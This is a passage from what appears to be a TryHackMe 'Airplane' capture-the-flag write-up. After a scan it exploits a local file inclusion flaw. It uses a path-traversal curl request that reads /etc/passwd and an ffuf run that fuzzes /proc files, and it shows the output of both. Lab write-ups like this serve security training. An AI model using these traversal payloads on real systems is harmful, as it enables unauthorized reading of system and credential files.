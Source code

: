 ```bash
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.91 seconds   
```

We can see that our target runs an SSH and a Werkzeug web server. In the scan result, the target redirects Nmap to a domain name that we can add to our `/etc/hosts` file.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/Airplane]
└─$ echo "10.10.158.63\tairplane.thm" | sudo tee -a /etc/hosts
10.10.158.63    airplane.thm
```

We could continue our enumeration by fuzzing for the presence of Vhosts but we can notice that the target uses a `page ` parameter to import the `index.html` page. We can test if this parameter is vulnerable to local file inclusion vulnerability.
```bash
┌──(pentester㉿kali)-[~/…/Challenge/Airplane/Scans/Web]
└─$ curl 'http://airplane.thm:8000/?page=../../../../etc/passwd' 
root:x:0:0:root:/root:/bin/bash
<SNIP>
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
<SNIP>
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
hudson:x:1001:1001::/home/hudson:/bin/bash
sshd:x:128:65534::/run/sshd:/usr/sbin/nologin
```

## Exploitation

We can see that the `page` parameter is indeed vulnerable to LFI. We can use this to fuzz for common files on the target.
```bash
┌──(pentester㉿kali)-[~/…/TryHackMe/Challenge/Airplane/Scan/Web]
└─$ ffuf -ic -c -u 'http://airplane.thm:8000/?page=../../../..FUZZ' -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 14  
<SNIP>
/proc/net/arp           [Status: 200, Size: 156, Words: 79, Lines: 3, Duration: 115ms]
/proc/self/cmdline      [Status: 200, Size: 24, Words: 1, Lines: 1, Duration: 119ms]
/proc/partitions        [Status: 200, Size: 385, Words: 192, Lines: 14, Duration: 132ms]
/proc/self/environ      [Status: 200, Size: 437, Words: 1, Lines: 1, Duration: 133ms]
/proc/cpuinfo           [Status: 200, Size: 2310, Words: 287, Lines: 55, Duration: 143ms]
/proc/net/dev           [Status: 200, Size: 449, Words: 243, Lines: 5, Duration: 147ms]
/proc/net/route         [Status: 200, Size: 512, Words: 290, Lines: 5, Duration: 158ms]
/proc/version           [Status: 200, Size: 154, Words: 17, Lines: 2, Duration: 159ms]
/proc/mounts            [Status: 200, Size: 3099, Words: 206, Lines: 42, Duration: 158ms]
/proc/self/status       [Status: 200, Size: 1333, Words: 89, Lines: 56, Duration: 148ms]
/proc/meminfo           [Status: 200, Size: 1475, Words: 540, Lines: 54, Duration: 147ms]
/proc/interrupts        [Status: 200, Size: 1853, Words: 834, Lines: 35, Duration: 147ms]
/proc/loadavg           [Status: 200, Size: 28, Words: 5, Lines: 2, Duration: 147ms]
/proc/net/tcp           [Status: 200, Size: 84000, Words: 33635, Lines: 561, Duration: 159ms]
<SNIP>
:: Progress: [929/929] :: Job [1/1] :: 116 req/sec :: Duration: [0:00:20] :: Errors: 0 ::
```
